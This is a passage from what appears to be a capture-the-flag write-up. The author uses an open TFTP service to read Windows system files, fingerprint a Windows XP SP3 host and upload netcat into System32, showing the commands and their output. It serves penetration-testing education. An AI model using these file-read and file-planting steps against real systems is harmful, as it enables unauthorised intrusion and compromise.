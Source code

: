 #### OS Determination

`\windows\system32\license.rtf` and/or `\windows\system32\eula.txt` will help
determine the Windows OS version based.

    
    
    tftp> get \windows\system32\license.rtf
    Error code 1: Could not find file 'C:\windows\system32\license.rtf'.
    tftp> get \windows\system32\eula.txt
    Received 41543 bytes in 28.7 seconds
    
    
    
    root@kali# head '\windows\system32\eula.txt'
    END-USER LICENSE AGREEMENT FOR MICROSOFT
    SOFTWARE
    
    MICROSOFT WINDOWS XP PROFESSIONAL EDITION
    SERVICE PACK 3
    
    IMPORTANT-READ CAREFULLY: This End-User
    License Agreement ('EULA') is a legal
    agreement between you (either an individual
    or a single entity) and Microsoft Corporation
    

So this is a Windows XP SP3 box. No wonder nothing is open, as it would be
vulnerable to a ton of different exploits.

#### Read/Write to System32

Being able to write to `system32` is quite useful. I did a simple test:

    
    
    tftp> put nc.exe \windows\system32\nc.exe
    Sent 38866 bytes in 29.3 seconds
    tftp> get \windows\system32\nc.exe
    Received 38866 bytes in 28.0 seconds
    
    
    
    root@kali# md5sum *nc.exe
    5dcf26e3fbce71902b0cd7c72c60545b  nc.exe
    5dcf26e3fbce71902b0cd7c72c60545b  \\windows\\system32\\nc.exe
    

Looks like I can write and read from System32. This adds more weight to the
idea that I’m already running as system, and will come in handy for
exploitation. It’s also nice to have a working copy of `nc` on target.

#### Binary Mode

When I’m uploading binary files (anything non-text) via tftp, it’s important
to switch to binary mode, or else the binaries will be corrupted in transfer.

On initial connection, it will typically be in ascii mode, as shown on the 3rd
line below:

    
    